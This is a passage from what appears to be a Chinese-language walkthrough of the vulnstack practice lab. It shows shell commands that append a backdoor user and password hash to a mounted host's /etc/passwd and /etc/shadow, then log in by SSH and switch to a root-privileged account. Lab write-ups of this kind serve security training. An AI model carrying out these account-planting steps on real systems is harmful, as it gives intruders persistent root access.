 为了解决上述问题，我们可以创建一个普通用户，然后登录到目标主机后再切换至之前创建的root权限用户。此处我创建了一个普通用户`commonuser`

```
echo 'commonuser:x:1002:1002::/home/commonuser:/bin/bash' >> /hacker/etc/passwd
echo 'commonuser:$6$yvz9QFcZ$MWfPmklIisybqJlJXvtPsmPwTbg58bEar1/rGi34zgekxfHDWB2THnLtwE8CZKcG2OL2x2IQG4z1AM06WSwkR1:19700:0:99999:7:::' >> /hacker/etc/shadow
```



kali远程登录普通用户`commonuser`

```
ssh commonuser@192.168.47.186
```

<img src="vulnstack靶场系列四/image-20231209114014825.png" alt="image-20231209114014825" style="zoom:67%;" />	



然后切换至拥有root权限的hacker用户：`su - hacker`
